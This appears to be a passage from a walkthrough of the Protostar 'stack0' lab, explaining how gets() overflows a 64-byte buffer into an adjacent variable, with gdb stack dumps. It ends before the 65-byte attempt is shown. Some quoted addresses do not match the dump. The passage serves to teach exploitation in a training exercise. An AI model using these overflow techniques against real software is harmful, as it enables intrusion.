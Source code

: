 ```c
volatile int modified;
```

`volatile` ensures that the compiler does not optimise trivial or unused variables away.

```c
gets(buffer);
```

`gets` is an unsafe copying method which can overflow the buffer supplied.

```c
volatile int modified;
char buffer[64];
```

Since `modified` comes above `buffer`, it is the first thing to be written when `buffer` is overflown.

This is because the stack is allocated from higher addresses to lower addresses.

## Analysis

Set a breakpoint before the `if` statement:

```
(gdb) b *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
```

We can try to pass in 24 `A`s to examine what the stack looks like.

```
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
13      in stack0/stack0.c

(gdb) x/24wx $esp
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff770:     0x41414141      0x08049600      0xbffff7a8      0x08048469
0xbffff780:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7a8
0xbffff790:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
```

In this case, we can see that the buffer starts from `0xbffff750` + `c`

`modified` variable is at `0xbffff790` + `c`

As such, we need to fill up `buffer` completely with 64 `A`s and another to write into `modified`.

Since `modified` is an `int`, all 4 bytes at `0xbffff79c` are read for its value.

We can try again with 65 `A`s:
